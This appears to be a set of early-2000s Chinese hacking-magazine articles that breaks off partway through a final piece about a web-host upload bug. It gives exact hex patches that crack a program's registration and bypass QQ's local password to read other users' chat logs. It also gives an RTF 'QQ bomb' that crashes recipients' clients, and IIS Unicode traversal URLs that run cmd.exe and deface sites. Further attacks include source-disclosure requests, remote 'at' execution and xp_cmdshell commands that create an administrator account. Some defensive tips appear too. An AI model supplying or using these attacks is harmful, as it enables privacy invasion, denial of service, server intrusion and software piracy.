

如果你手头上没有 eXeScope，或者嫌这种方法不够 COOL，那么可以使用 16 进制文件编辑器 UltraEdit。用 UltraEdit 打开 PFW.exe，然后点击“搜索”菜单下的“查找”，会打开“查找”对话框，在“查找什么”栏中输入“D58B2875487203”，点击“下一个”按钮会找到上述字串，将光标定位在数据区，依次输入“636B0F5F487203”将上述字串替换掉，保存修改结果退出即可，这样修改的结果和前面的方法完全相同。虽然这还只能算皮毛功夫，但在学习的过程中体验一下 DIY 软件的乐趣又有何不可呢？

> 编者：这种对待学习的精神是可取的，不过怎么看都有点阿Q叔叔的味道，真要想功能完善看着又舒服，还是花钱注册正式版吧。



## 无需密码 可进入QQ

文／cainiao




许多人以为，要想查看别人的 QQ 聊天记录，必须使用专门的黑客软件才行，其实，无需这类软件甚至无需知道 QQ 密码，也可查看别人的聊天记录，而且方法非常简单！撰写此文的目的就是希望大家能了解这种方法并加以防范。

#### 一、具体方法

大家知道，要想查看 QQ 聊天记录，必须输入 QQ 的密码才行，否则就会弹出如图 1 所示窗口。



其实只要用 UltraEdit 这款十六进制文件编辑器简单地修改一下 QQ 的主文件，就可以让我们无需密码也可随意离线浏览 QQ 聊天记录。方法是：运行 UltraEdit，选择“文件”菜单下的“打开”，找到 QQ 安装目录下的 QQ 主程序，选定后打开它，然后点击“搜索”菜单下的“查找”（或按 Alt+F3 组合键），会弹出“查找”对话框（图 2），在该窗口的“查找什么”栏中输入：85C00F854C010000，点击“下一个”按钮会找到惟一的一处结果（图 3），将其替换为：85C0E94D01000090，注意不要输错了，而且字节数一定要一样多才行。修改完毕保存该文件。




再次运行 QQ，选定 QQ 号码列表框中的任何一个号码，如图 4 所示，在“用户口令”栏中无论输入任何字符，甚至什么都不用输入，直接点击“登录”就可以进入 QQ 中浏览别人的任何信息了！原理其实也很简单：在我们修改 QQ 主文件后，它的判定条件变了：原本必须输入正确的用户口令才能通过本地密码验证，现在变成什么都不用输入或输入任何字符 QQ 都会认为这是正确的！QQ 本地密码验证已经只是个摆设，没什么用了！该技巧在 QQ2000C Build 0630 版本中测试通过。对于还在使用 QQ2000C Build 0825 版 QQ 的朋友，可以使用 UltraEdit 打开 QQ 的主程序，查找：0F8564010000A1F0，找到后替换为 E96501000090A1F0，然后保存修改结果即可。


用这一招，不仅可以查看别人的 QQ 聊天记录，还可以查看别人的 QQ 好友列表，甚至是导出别人的聊天记录保存下来慢慢看，都可以！用这个方法除了可以看别人的聊天记录，还有一个好处，就是如果自己想离线浏览自己的聊天记录，无需输入密码，省事多了！

#### 二、防范方法

由此可知，如果在公共场所上网（比方说网吧），让自己的 QQ 号码出现在 QQ 号码列表框中是非常危险的！该怎么办？在 QQ 号码列表框中删除自己的 QQ 号码，并在 QQ 目录下将以你的 QQ 号码命名的文件夹删除，就安全多了！方法是：进入“我的电脑”，找到 QQ 所在目录下的 dat 文件夹，打开后可以看到一个 QQ2000.cfg 文件，删除这个文件，就可以使自己的 QQ 号码不出现在 QQ 号码列表框中。然后，删除 QQ 目录下以你的号码命名的文件夹，这样就没有问题了。

不过，这里还有一个小问题。如果你是在自己家上网，当然可以像上面这样做，但是在网吧等公共场所，由于网吧管理软件的限制，是无法直接进入“我的电脑”并删除文件的，那该怎么办呢？不要着急，我有办法！只要在 IE 浏览器的地址栏中输入：`file:///::{20D04FE0-3AEA-1069-A2D8-08002B30309D}`，就可以突破限制进入“我的电脑”。之后，想办法删除文件或文件夹就可以了。

下面说说如何突破网吧禁止删除文件的限制。用鼠标左键单击选中要删除的文件或文件夹，按键盘上的 Del 键，松开按键后迅速按下 Enter 键即可删除该文件或文件夹。对于文件删除我们还有一个好方法，就是把任意一个文件改名为与欲删除的文件同名（扩展名也相同），按 Ctrl+C 复制此文件，来到要删除的文件所在的文件夹，按 Ctrl+V 粘贴该文件，会弹出一个标题栏为“确认文件替换”的对话框，点击“是”则变相地删除了该文件。为防止有人到回收站中恢复被删除的文件或文件夹，我们还应到回收站中删除它们。由于网吧中的回收站也不是随意可以访问的，所以我们还要突破网吧中对访问回收站的限制。在浏览器地址栏中输入：`file:///::{645FF040-5081-101B-9F08-00AA002F954E}` 即可进入回收站，然后怎么做就不用我说了吧？

以上方法，较之用 WinZip、ACDSee 等工具软件突破网吧限制要实用得多，因为不是每一个网吧都会安装 WinZip、ACDSee 等软件的，而本方法则无需其他软件的帮助就可以突破防线，希望大家能灵活掌握运用。

另外，我们还可以采用将自己的 QQ 消息加密的方法，来防止别人采用上面的方法在离线状态下进入你的 QQ，窥视你的秘密。方法是：用鼠标右键点击系统托盘里的 QQ 企鹅头像，在弹出菜单中选择“系统参数”，会出现“QQ 参数设置”窗口，选择其中的“安全设置”标签，在“启用本地消息加密”前面打上“√”，然后输入口令并确认，如果害怕自己忘记口令，还可以选择“口令提示”，输入“提示问题”和“问题答案”就可以了，如图 5 所示。这样，如果有人用上面的方法来查看你的聊天记录，就算通过了 QQ 本地密码验证这一关，还会弹出一个“请输入本地消息密码”对话框，如图 6 所示，只有密码正确才可以进入 QQ，否则会退出 QQ，这样一来就安全多了。


## 在QQ中给对方发送流光溢彩的特大字

文／沧海一声笑

在 QQ 中给对方发送流光溢彩的特大字有什么用呢？要小心，说不定它就是一个简单的 QQ 炸弹，会使对方的 QQ 非法操作，不信？我们先从它的理论方法开始一步步研究吧。

众所周知，用 QQ 聊天时最大可以支持发送 22 号字，但若想发送更大的字给对方，那就得另谋它路了。一次，有个朋友给我发了几个流光溢彩的特大字，在我软磨硬泡、威逼利诱之下，终于将他的方法挖来了，现公布出来与大家分享：

#### 一、基本方法和理论基础

在 QQ 好友名单中选定一个好友的头像，选择“收发消息”，在出现的“发送消息”窗口中输入如下字串：`{\rtf\fs140\'d1\'f2\'c4\'ea\'bf\'ec\'c0\'d6}`，点击“送讯息”按钮，对方将会收到 140 号这么大的宋体字：羊年快乐，如图 1 所示，呵呵，你的朋友一定很吃惊。如果把交谈模式设置为“对话模式”，不仅接收方，就连发送方自己也可以看到这种效果。


在此解释一下，“`{\rtf`”是必不可少的固定格式，表示采用 RTF（Rich Text Format）文件格式传送消息。每个 RTF 文件都是一个文本文件，显示时由 RTF 阅读器格式化，文件开始处一定是 `{\rtf`，它作为 RTF 文件的标志是必不可少的，RTF 阅读器根据它来判断一个文件是否为 RTF 格式，然后是文件头和正文。文件头包括字体表、文件表、颜色表等几个数据结构，正文中的字体、表格的风格就是根据文件头的信息来格式化的。每个表用一对大括号括起来，当中包含了很多用字符“\”开始的命令。文件结束时有一个“}”，是和前面的“{”对应。

“`\fs140`”表示采用 140 号字体，在“fs”后面输入的数字是多少，表示发送多少号的文字。你可以把它改得更大，但字号太大会导致发送的文字分行显示；“`\'d1\'f2\'c4\'ea\'bf\'ec\'c0\'d6`”中的“\”和“'”也是必不可少的固定格式。字串中的“d1 f2 c4 ea bf ec c0 d6”是“羊年快乐”的 16 进制编码，大小写都可以。在 RTF 中中文用命令的形式表示：“\'内码”，内码就是汉字机内码。不过，请注意：RTF 是文本文件，内码是用 ASCII 码来储存的，必须把它转换成数字才能使用。例如，“计算机”这几个汉字在 RTF 中的形式是：`\'bc\'c6\'cb\'e3\'bb\'fa`，要想得到你想发送的字符的 16 进制编码，可以使用 16 进制文件编辑器 UltraEdit。

UltraEdit 是一款非常出色的文字、Hex、ASCII 码编辑软件，可以取代记事本，内建英文单字检查、C++ 及 VB 指令突显，可以对 EXE 和 DLL 文件进行编辑。使用该软件可以让我们自由定制自己的应用程序，真正做到随心所欲地使用软件。运行 UltraEdit，点击“文件”菜单下的“新建”，新建一个文件，然后输入：羊年快乐，再点击“编辑”菜单下的“16 进制编辑”，就可以得到这几个字符的 16 进制编码（图 2）。

你想发送的字符的 16 进制编码可以用同样的方法得到。


图 2

使用这种方法还可以发送带有特殊颜色的特殊字体，比方说红色的隶书（在默认情况下是使用黑色宋体发送字符）等。由于新版本的 QQ 已经可以选择要发送的字符的颜色和字体（图 3），所以，只要在“发送消息”窗口中输入要发送的内容，然后选择你想发送的颜色和字体即可。


图 3

当然，你也可以直接在要发送的字符中定义字体，比方说发送如下内容（将要发送的文字选定为红色）：`{\rtf{\fonttbl{\f0\cl\a5\ca\e9;}}\fs140\d1\f2\'c4\'ea\'bf\'ec\'c0\'d6}`，对方就会收到 140 号的隶书“羊年快乐”，如图 4 所示。解释一下：“fonttbl”代表你想使用别的字体，和“f0”配合用来设置你想发送的字体。“c1 a5 ca e9”这几个字符是“隶书”的 16 进制编码，要想使用其他字体，可以在 QQ 中选择，也可以在 UltraEdit 中输入其他字体的名字，然后查其 16 进制编码即可发送各种字体给对方。当然，这需要你和对方的电脑中都安装有相应的字体才行。


图 4

其实，我们也可以在发送的代码中直接设定要发送文字的颜色。比如说你想发送“羊年大吉”这 4 个字给对方，要求字很大，且每个字的颜色都不一样，这该怎么办呢？发大字好说，用前面的方法就行了，但是每个字都使用不同的颜色仅靠 QQ 自身的功能就无能为力了。其实，我们只要在代码中加入控制颜色的部分就可以了。下面是个完整的代码例子，对方将收到 4 种不同颜色的“羊年大吉”，代码如下：

```rtf
{\rtf{\fonttbl{\f0\'c1\'a5\'ca\'e9;}}
{\colortbl;\red255\green0\blue0;
\red0\green255\blue0;\red0\green0\blue128;
\red0\green255\blue255;}\fs138\cf1 羊\cf2 年\cf3 大\cf4 吉\par}
```

解释一下：“{\colortbl”开始的部分表示控制颜色的代码的开始，要想自定义发送字符的颜色，它是必不可少的部分。从“\red255\green0\blue0;”开始的内容就是为每个字符定义颜色，在这里共定义了 4 种颜色，你可以根据自己的需要定义更多的颜色。再靠后的代码“\cf1羊 \cf2年 \cf3大 \cf4吉”与前面的颜色部分代码分别一一对应，这样就可以实现每个字的颜色都不相同的效果。在本例中，对方收到的将是 4 种不同颜色的 138 号的隶书“羊年大吉”，每个字流光溢彩，煞是好看，效果如图 5 所示。


图 5

要说明的是，使用旧版本 QQ 的朋友无法看到本文所说的这种效果，这里所说的旧版本主要指 QQ2000C 系列之前版本的 QQ，他直接看到的就是你发送给他的那些文本代码，如图 6 所示。不过，即便是旧版本的 QQ 用户也可以用此方法给别人发送特大字，同样可以让你的朋友们享受到这份快乐和乐趣。对于 QQ2000C 系列的 QQ，不仅可以发送，而且在“对话模式”中还可以看到发送后的效果。


图 6 效果。

### 二、在QQ中发送特大字的更简单的办法

以上所说的方法是理论基础，因此略显烦琐。其实有更简单的方法给对方发送特大字。前面已经提到，实际我们发送给对方的是 RTF 文件，而手动编写 RTF 文件代码显然要求我们必须懂得 RTF 文件的格式才行，这样对大家的要求较高，不利于本方法的推广。其实，既然我们知道是 RTF 文件形成的效果，那我们完全可以用 Windows 自带的“写字板”事先编写一个文件，其中包含你想发送的 QQ 消息内容，然后将其保存为 RTF 文件，再用 16 进制文件编辑器 UltraEdit 等打开该文件，就可以看到源代码了。在 QQ 中给对方发送这些源代码，对方就可以看到你事先准备好的内容了。步骤如下：

点击“开始”菜单中的“程序”→“附件”，找到“写字板”，点击之。在写字板中输入你想发送的内容，在这里，你可以定义要发送的文字的字号大小、文字颜色、采用的字体，以及是否采用粗体、斜体等；还可以定义字符对齐的方式，如图 7 所示。编辑完毕后，点击“文件”菜单中的“另存为”，在弹出的“另存为”对话框的“保存类型”下拉列表框中找到“Rich Text 格式（RTF）”，选中它（图 8），点击“确定”保存修改结果。


然后运行 UltraEdit，用它打开你保存好的 RTF 文件，在 UltraEdit 的编辑窗口中就可以看到这个 RTF 文件的源代码（图 9），它们就是你准备在 QQ 中发送的内容。运行 QQ，把上面这些源代码复制到 QQ 的发送消息窗口中，接着选择“发送”，对方就可以体会到你“加倍”的美好祝福和“放大”的深厚情谊啦！


#### 三、扩展应用

关于这个有趣的技巧，在黑客领域中能否有所扩展应用呢？如果将字号改得足够大，是不是可以当 QQ 炸弹使用呢？于是我做了个实验，代码如下所示：

```rtf
{\rtf1\ansi\ansicpg936\deff0\deflang1033\deflangfe2052{\fonttbl{\f0\fnil\fcharset134 'cb'ce'cc'e5;}}\fs1800000000000000000000000000000000000000
```

即将字号设为 1800000000000000000000000000000000000000 这么大，同时发送给 QQ 好友和自己目前已经打开了的另外的一个 QQ 号，在屏幕上会出现一个对话框：显示 QQ 非法操作，同时自动将该 QQ 关闭。问自己的 QQ 好友，他告诉我他的 QQ 也出现非法操作关闭了，所以说这种方法可以作为 QQ 炸弹使用，使对方下线。当然，如果对方使用的是低版本的 QQ，他看到的将是上述代码，不会使对方下线。所以，如果你想在 QQ 中发送大字符给对方当炸弹使用，那么请先搞清楚他使用的 QQ 版本。

另外，有的朋友可能会想，如果在 QQ 中将字号选定为某个值，这里假设是 QQ 最大支持的 22 号字，然后用上面的方法发送更大的字符如 100 号字给对方，那么对方会收到多大的字符呢？答案是他会看到我们发送的特大字，而非 22 号字。

好了，就到这里吧，还愣着干啥？赶快用本文所说的方法，在 QQ 中给你的 MM 发送 `{\rtf{\fonttbl{\f0\'c1\'a5\'ca\'e9}}{\sl15\b0\ae\'c4\'e3\'d2\'bb\'cd\'f2\'c4\'ea}` 试试，保证会让她高兴得跳起来，因为你发送的是 5 个大字“爱你一万年”（图 10），新年就收到这样令人心醉不已的消息，你说她能不高兴吗？等着领“赏”吧！


## Windows 2000

文／令章

### 个人系统安全入门

Windows 2000 比 Windows 98 提供的服务更多，功能更强，但也随之暴露出许多安全隐患，以下就列举一些常见的不安全因素。

### 1. 3389 端口

Windows 2000 安装后会自动开启一个终端服务，默认端口为 3389，远程用户可以通过远程终端客户端软件（mstsc.exe）连接到你的机器上。如果你的账号和密码被猜出，你的机器就完全被别人控制了。

解决方法：打开管理工具中的“服务”，将 Terminal Services 服务禁用。

### 2. 139 端口

通过 139 端口入侵是网络攻击中常见的一种攻击手段，当安装了 NetBIOS 协议后 139 就会打开。NetBIOS 即网络基本输入输出系统，系统可以利用 WINS 服务、广播及 Lmhost 文件等多种模式将 NetBIOS 名解析为相应 IP 地址，从而实现信息通讯。在局域网内部使用 NetBIOS 协议可以非常方便地实现消息通信，但是如果在 Internet 上，NetBIOS 就相当于一个后门程序，很多攻击者都是通过 NetBIOS 漏洞发起攻击。下面就来介绍一下通过 139 端口入侵和防范的方法。

首先使用扫描工具对一台主机进行端口扫描，如果 139 端口开放，使用“nbtstat -a IP地址”命令来获得用户的信息情况，并获得攻击主机名称和工作组。接下来攻击者需要做的就是实现与攻击目标资源共享。使用 Net View 和 Net User 命令显示计算机列表和共享资源，并使用 nbtstat -r 和 nbtstat -c 命令查看具体的用户名和 IP 地址。单击 Windows 桌面“开始”按钮，然后执行“查找／计算机”命令，填写刚才查找到的主机名称，就可以找到这台电脑了。双击主机名称即可打开指定的计算机。

对于 139 端口攻击的防范，针对不同系统的设置也有所不同，下面就来分别描述。

针对使用 Windows 9x 系统拨号上网用户，可以不必登录到 NT 局域网络环境，打开控制面板，然后双击“网络”图标，在“主网络登录”中选择“Microsoft 友好登录”，不必选择“Windows 网络用户”方式。此外，也不必设置“文件打印共享”。

至于 Windows NT 用户，可以取消 NetBIOS 与 TCP/IP 协议的绑定，打开“控制面板”，然后双击“网络”图标，在“NetBIOS 接口”中选择“WINS 客户（TCP/IP）”为“禁用”，并重新启动计算机即可。

Windows 2000 用户可以使用鼠标右键单击“网络邻居”图标，然后选择“属性”命令，打开“网络和拨号连接”对话框，用鼠标右键单击“本地连接”图标，然后执行“属性”命令，打开“本地连接属性”对话框。双击“Internet 协议（TCP/IP）”，在打开的对话框中单击“高级”按钮。打开“高级 TCP/IP 设置”对话框，选择“选项”选项卡，在列表中单击选中“TCP/IP 筛选”选项。

此外，也可以通过防火墙来防范攻击。对于个人上网用户，可以使用“天网防火墙”定制防火墙规则。启动“天网个人防火墙”，选择一条空规则，设置数据包方向为“接收”，对方 IP 地址选“任何地址”，协议设定为“TCP”，本地端口设置为“139 到 139”，对方端口设置为“0 到 0”，设置标志位为“SYN”，动作设置为“拦截”，最后单击“确定”按钮，并在“自定义 IP 规则”列表中勾选此规则，即可启动拦截 139 端口攻击了。

### 3. Telnet 服务

Windows 2000 是默认安装了 Telnet 服务的，但是并没有默认启动。远程用户可以使用前面介绍的 at 命令来启动服务，当服务启动后先别急于登录，由于 Telnet 使用了身份验证安全机制，所以直接登录有可能失败。Telnet 默认是按照 NTLM 方式进行身份认证的，所以在登录前要做一些改动来欺骗验证程序。根据 NTLM 身份认证的特点，把本地的账号和密码修改成服务器上的账号和密码，然后重新启动，用修改的账号和密码登录，然后再连接服务器的 Telnet。这个方法比较笨拙，最简便的方法是修改注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0`，具体修改方法在此就不详细讲解了，有兴趣的读者请参见 Windows 的帮助文档。

### 4. 默认共享服务

在“运行”对话框中输入 `\\targetIP\C$`，如果你没设密码的话，就会看到你的 C 盘目录。然后攻击者就可以上传一些恶意的攻击程序并使用下面的命令来激活所传的程序：

```text
c:\>net time \\targetIP

c:\>at \\targetIP time 所要运行的命令
```

### 5. 中文输入法

启动 Windows 2000 后，出现在登录画面时按出全拼输入法，点击帮助，在帮助窗口里单击鼠标右键选择“跳转”，然后输入你要使用的命令。

解决方法：将输入法的帮助文件删除。

### 6. IIS 服务

如果你在机器上架设 Web 服务的话，那你就要小心了，因为 IIS 服务器的漏洞比较多，稍不注意就会被别人利用。以下列举了到目前为止发现的常见漏洞：

#### Unicode 漏洞

常被黑客利用的就是 Unicode 漏洞了，虽然这个漏洞早在两三年以前就被发现了，但由于一些人为疏忽还是造成了很大的安全隐患。

通过下面的命令可以显示出服务器的 C 盘目录：

```text
http://www.target.com/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir+c:\
```

黑客们其实只要下面两句很简单的指令绕过 IIS 的审计，就能够对网站的页面进行改写，所谓的“黑了一个网站”就是这么简单。

```text
http://www.target.com/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+copy+c:\winnt\system32\cmd.exe+d:\inetpub\scripts\hacker.exe

http://www.target.com/scripts/123.exe?/c+echo+黑掉啦?+>+c:\inetpub\wwwroot\default.asp
```

如果你了解一些基本的 DOS 命令的话，应该可以看懂上面的 copy 的作用。

这个问题已经在 IIS 4.0 + SP6 中得到解决，然而微软却让它在 IIS 5.0 中再度出现。

以上列举的是中文 Windows 2000 的漏洞，如果是 Windows 2000 英文版，只需将编码改为：`%c0%af`

繁体中文也同样存在这样的漏洞，在此就不一一列举了。如果有兴趣可到 `http://www.websamba.com/redstorm` 去看看。

解决方法：尽快去微软网站下载补丁。临时解决方法是将 scripts 目录改名或删除。

#### IIS ISAPI Printer 远程溢出攻击

微软 Windows 2000 IIS 5 的打印 ISAPI 扩展接口建立了 `.printer` 扩展名到 `msw3prt.dll` 的映射关系，缺省情况下该映射存在。当远程用户提交对 `.printer` 的 URL 请求时，IIS 5 调用 `msw3prt.dll` 解释该请求。由于 `msw3prt.dll` 缺乏足够的缓冲区边界检查，远程用户可以提交一个精心构造的针对 `.printer` 的 URL 请求，其“Host:”域包含大约 420 字节的数据，此时在 `msw3prt.dll` 中发生典型的缓冲区溢出，潜在允许执行任意代码。溢出发生后，Web 服务停止响应，Windows 2000 可以检查到 Web 服务停止响应，从而自动重启它，因此系统管理员很难意识到发生过攻击。

#### Null.htw 漏洞

IIS 如果运行了 Index Server，就包含了一个通过 Null.htw 有关的漏洞，即服务器上不存在此 `.htw` 结尾的文件。这个漏洞会导致显示 ASP 脚本的源代码，global.asa 里面包含了用户账号等敏感信息。如果攻击者提供特殊的 URL 请求给 IIS，就可以跳出虚拟目录的限制，进行逻辑分区和 ROOT 目录的访问。而这个“hit-highlighting”功能在 Index Server 中没有充分防止各种类型文件的请求，所以导致攻击者访问服务器上的任意文件。Null.htw 功能可以从用户输入中获得 3 个变量：CiWebhitsfile、CiRestriction、CiHiliteType。

```text
http://www.target.com/null.htw?CiWebhitsfile=/default.asp%20&%20CiRestriction=none%20&%20CiHiliteType=full
```

其中不需要一个合法的 `.htw` 文件，是因为虚拟文件已经存储在内存中了。

#### .htr 漏洞

这个漏洞是由 NSFOCUS 发现的，对有些 ASA 和 ASP 追加 `+.htr` 的 URL 请求就会导致文件源代码的泄露。

```text
http://www.目标机.com/global.asa+.htr
```

#### ASP 源代码泄露

```text
http://www.target.com/default.asp::$DATA
```

你就得到了源代码。

#### 7．SQL 1433 端口

在安装 MS SQL Server 后，MS SQL Server 将会产生一个默认的 SA 用户，而且初始密码在管理员没有设置的情况下为空。但是，SA 是 SQL Server 中非常重要的安全模块成员，这样一来，黑客们就可以通过 SQL Server 的客户端进行数据库远程连接，然后再通过 SQL 的远程数据库管理命令 `xp_cmdshell stored procedure`（扩展存储过程）来进行命令操作：

```text
xp_cmdshell "net user id password /add"
xp_cmdshell "net localgroup Administrators id /add"
```

最好在安装完 SQL Server 服务器之后，设置 SA 账户的密码，当然密码要取得复杂点，最好是字母、数字和符号的组合，以免被他人猜出。

### Y365/8u8 网站上传 BUG

文／blacksheep（blacksheep.cn.st）

提供免费主页空间的 Y365/8u8（http://www.y365.com，http://www.8u8.com）系列网站从 2002 年 3 月开始长期停止 8U8/Y365 免费服务账号的申请，老用户不影响使用，而且将继续长期提供免费服务。

Y365/8u8 网站提供注册用户支持 HTML 和 JS 的网页空间。用户使用申请到的 ID 和密码登录（申请一个 ID 便有了局部可写权限）。用户使用 Web 方式上传自己的网页。但为保证访问速度，每日 19：00～22：05 暂停上传。由于笔者常在这个时间段上网，所以很是烦恼。但不想某天却发现它的一个上传 BUG。

具体方法：你必须在它停止上传的 19：00 前登录进去，打开已经保存在服务器上的文件，编辑完后，上传。如果时间已经过了 19：00，系统提示：

为保证访问速度，每日 19：00～22：05 暂停上传。

上传。

返回重新登录

